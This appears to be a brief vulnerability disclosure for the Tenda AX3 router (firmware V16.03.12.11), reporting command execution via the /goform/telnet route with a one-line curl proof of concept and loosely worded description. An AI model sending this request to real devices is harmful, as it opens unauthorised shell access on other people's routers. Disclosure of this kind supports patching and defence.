



# Tenda AX3 Command Execution

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda AX3 V16.03.12.11 devices. An HTTP request within the handler function of the /goform/telnet  route. This could lead to  Shell Metacharacters.




When we send packets, the router will be shell

```
curl  -X  GET  http://127.0.0.1/goform/telnet
```






